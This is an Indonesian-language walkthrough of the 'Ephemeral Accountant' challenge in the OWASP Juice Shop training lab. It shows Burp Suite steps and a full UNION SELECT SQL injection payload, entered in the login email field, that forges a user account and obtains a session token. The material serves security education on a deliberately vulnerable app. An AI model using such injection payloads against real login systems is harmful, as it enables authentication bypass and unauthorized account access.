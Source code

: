 # Ephemeral Accountant - OWASP Juice Shop

### Detail Informasi
Kategori = Injection☠️

[Ephemeral Accountant](http://localhost:3000/#/score-board?categories=Injection)

## Langkah-langkah pengerjaan
1. Mendapatkan schema query untuk **create User**
![Alt text](./gambar/ea-1.png)

2. Menemukan endpoint dari user login di burp suite dan send to repeater
![Alt text](./gambar/ea-2.png)

3. Pada bagian repeater bagian isi email diganti dengan payload yang sesuai dengan schema user-nya untuk memunculkan token
~~~
' UNION SELECT 45 as id, 'acnt' as username, 'acc0unt4nt@juice-sh.op' as email, '1234' as password, 'customer' as role, '' as deluxeToken, 'localhost' as lastLoginIp, 'default.svg' as profileImage, '' as totpSecret, 1 as isActive, '2024-08-30 14:32:12.456' as createdAt, '2024-08-30 14:32:12.456' as updatedAt, null as deletedAt--' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL;
~~~

![Alt text](./gambar/ea-3.png)
 